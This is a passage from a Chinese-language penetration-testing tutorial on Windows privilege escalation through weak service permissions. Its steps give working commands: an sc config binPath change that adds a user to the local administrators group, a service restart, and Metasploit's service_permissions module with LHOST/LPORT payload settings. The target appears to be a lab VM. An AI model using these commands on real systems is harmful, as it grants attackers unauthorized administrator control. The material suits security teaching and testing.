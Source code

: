     图 8.16 – 服务参数

1.  我们可以修改**BINARY_PATH_NAME**以执行任意命令。在我们的案例中，我们将把**vagrant**用户添加到本地管理员组。这可以通过运行以下命令来实现：

    **sc config "OpenSSHd" binPath= "net localgroup administrators vagrant /add"**

    如以下截图所示，如果操作成功执行，**vagrant**用户账户将被添加到本地管理员组，并应具备管理员权限：

    ![图 8.17 – 修改二进制路径](img/B17389_08_017.jpg)

    ](Images/B17389_08_017.jpg)

    图 8.17 – 修改二进制路径

1.  在修改二进制路径参数后，我们需要重新启动 OpenSSH 服务。这可以通过在 Windows 命令行中运行以下命令来完成：

    **sc stop OpenSSHd**

    **sc start OpenSSHd**

1.  我们可以通过在 Windows 命令行中运行以下命令来验证**vagrant**用户账户是否已添加到本地管理员组：

    **net localgroup administrators**

    如以下截图所示，**vagrant**用户账户现在是本地管理员组的成员，并且具有管理员权限：

    ![图 8.18 – 本地管理员组成员](img/B17389_08_018.jpg)

    ](Images/B17389_08_018.jpg)

    图 8.18 – 本地管理员组成员

1.  这个过程也可以通过使用一个名为**exploit/windows/local/service_permissions**的 Metasploit 模块来自动化。我们可以通过在 Metasploit 控制台中运行以下命令来加载该模块：

    **use exploit/windows/local/service_permissions**

    加载模块后，我们需要配置模块选项。在本例中，我们需要设置默认的 payload、**LHOST**、**LPORT** 和会话 ID 选项，如以下截图所示：

    ![图 8.19 – 服务权限模块选项    ](img/B17389_08_019.jpg)
